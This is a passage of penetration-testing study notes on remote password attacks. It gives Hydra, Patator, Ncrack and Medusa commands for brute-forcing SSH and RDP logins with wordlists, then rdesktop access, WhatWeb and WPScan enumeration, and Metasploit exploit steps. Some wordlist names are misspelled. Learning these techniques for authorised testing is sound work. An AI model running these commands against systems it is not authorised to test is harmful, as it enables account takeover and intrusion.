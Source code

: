		* Inside the internet firewall.
		
* Complexity
	* Coding skills.
		* C
		* Java
		* PhP
		* others
	* State.
	* Decryption or decoding required.
* Authentication
	* Is it required.
	* Data Analysis should reveal potential password attack vectors.
		* SSH
		* SMB
		* RDP
	* Most web apps need authentication.
* Quick questions:
	* Have you ever configured a a router and made a mistake.
	* We can always get access because of admin errors.
	* Services can be brute forced.

##  <a name="5.3"></a>5.3 Remote Password Attack
* Hydra is the tool of choice 
	* Can attack most of the desired services
	* `hydra -e nsr -L sqlmap.txt ip_address ssh -t 4`
	* `hydra -l username -P rocku.txt ip_address <protocol>`
	* `hydra -l username -P roockyou.txt ip_address <protocol>`
* Patator
	* `patator ssh_login host=ip_address user=root password=FILE0 0=/rocku.txt`
	* `patator ssh_login host=ip_address user=username password=FILE0 0=rockyou.txt`
	
* Ncrack (Faster)
	* `ncrack -v --user sys -P /rocku.txt ssh://ip_address`

* Medusa `parallel and fast]
	* `medusa -h ip_address -u root -P rocku.txt -M ssh`
		* -U = use a file

	* `medusa -h ip_address -u administrator -P rocku.txt -M rdp`

* Rdesktop
	* We can see the remote desktop using this command.
		* `rdesktop -u administrator -p password ip_address`
* Whatweb	
	* `whatweb http://ip_address`(Tells about the cms or tech used by the domain)
* wp_scan
	* `wpscan --url http://<ip_address> --enumerate u`
	*  Find the vulnerability
		* `wpscan --url http://<ip_address> --enumerate vp`
	* Example:
		* After finding the vulnerabilities
			* `use exploit/name`
			* `set RHOST <victim ip address>\r`
			* `set TARGETURI /<directory>\r`
			* `exploit`
